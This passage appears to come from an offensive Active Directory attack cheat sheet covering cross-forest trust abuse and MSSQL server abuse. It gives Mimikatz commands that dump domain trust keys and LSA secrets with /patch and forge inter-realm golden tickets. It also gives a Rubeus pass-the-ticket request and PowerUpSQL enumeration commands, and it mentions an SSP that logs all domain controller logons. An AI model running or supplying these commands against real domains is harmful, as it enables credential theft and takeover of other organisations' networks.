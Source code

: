 ⧉ Copied!

Now all logons on the DC are logged to -> C:\\Windows\\System32\\kiwissp.log

## Cross Forest Attacks

### Trust Tickets

*WUT IS DIS ?: If we have Domain Admin rights on a Domain that has Bidirectional Trust relationship with an other forest we can get the Trust key and forge our own inter-realm TGT.*

:warning: The access we will have will be limited to what our DA account is configured to have on the other Forest!

- Using Mimikatz:
    
    ```powershell
    #Dump the trust key
    Invoke-Mimikatz -Command '"lsadump::trust /patch"'
    Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
    
    #Forge an inter-realm TGT using the Golden Ticket attack
    Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<OurDomain> /sid:
    <OurDomainSID> /rc4:<TrustKey> /service:krbtgt /target:<TheTargetDomain> /ticket:
    <PathToSaveTheGoldenTicket>"'
    ```
    
    ⧉ Copied!
    
    :exclamation: Tickets -> .kirbi format
    
    Then Ask for a TGS to the external Forest for any service using the inter-realm TGT and access the resource!
    
- Using Rubeus:
    
    ```powershell
    .\Rubeus.exe asktgs /ticket:<kirbi file> /service:"Service's SPN" /ptt
    ```
    
    ⧉ Copied!
    

### Abuse MSSQL Servers

- Enumerate MSSQL Instances: `Get-SQLInstanceDomain`
    
- Check Accessibility as current user:
    
    ```powershell
    Get-SQLConnectionTestThreaded
    Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
    ```
    
    ⧉ Copied!
    
- Gather Information about the instance: `Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`
    